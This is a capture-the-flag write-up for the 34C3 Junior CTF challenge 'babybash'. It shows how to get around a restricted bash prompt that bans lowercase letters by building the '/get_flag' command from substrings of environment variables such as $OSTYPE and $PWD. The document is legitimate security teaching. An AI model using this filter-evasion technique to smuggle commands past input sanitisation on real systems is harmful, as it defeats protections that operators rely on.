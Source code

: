 ```yaml
---
title:  "34C3 Junior CTF - babybash"
date:   2018-01-02 17:18
---
```

This is the write up for the Misc challenge "babybash" during the Junior CTF at the 34C3. 

When connected to the box via netcat, you were presented with a babybash prompt. 
A simple 
{% highlight bash %}
ls
{% endhighlight %}
threw an error message. It stated that illegal characters were used, and to run help
{% highlight bash %}
help
{% endhighlight %}
This printed the illegal characters:
* a-z
* .
* ?
* \*

and the hint to run ```/get_flag``` to retrieve the flag. The use of upper case letters was allowed, and therefore access to environment varaiables was possible. With clever use of the builtin substring feature in ```bash(1)``` the command could be assemble. 

For solving the challenge I used the following variables:
{% highlight bash %}
> $HOSTNAME
/bin/bash: 28e32c6defa5: command not found
> $PATH
/bin/bash: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin: No such file or directory
> $TERM
/bin/bash: xterm: command not found
> $SHELLOPTS
/bin/bash: braceexpand:hashall:interactive-comments: command not found
> $OSTYPE
/bin/bash: linux-gnu: command not found
> $PWD
/bin/bash: /tmp/4a7ddec13b10a2414e458491a00a37b275679ed2: Is a directory
{% endhighlight %}

The final solution:
{% highlight bash %}
/${OSTYPE:6:1}${TERM:2:1}${TERM:1:1}_${HOSTNAME:9:1}${SHELLOPTS:17:1}${SHELLOPTS:2:1}${OSTYPE:6:1} ${OSTYPE:6:1}${OSTYPE:1:1}${PWD:2:1}${PWD:2:1}${HOSTNAME:2:1}_FLAG_${PWD:3:1}${OSTYPE:0:1}${HOSTNAME:2:1}${SHELLOPTS:2:1}${SHELLOPTS:14:1}${HOSTNAME:2:1}
{% endhighlight %}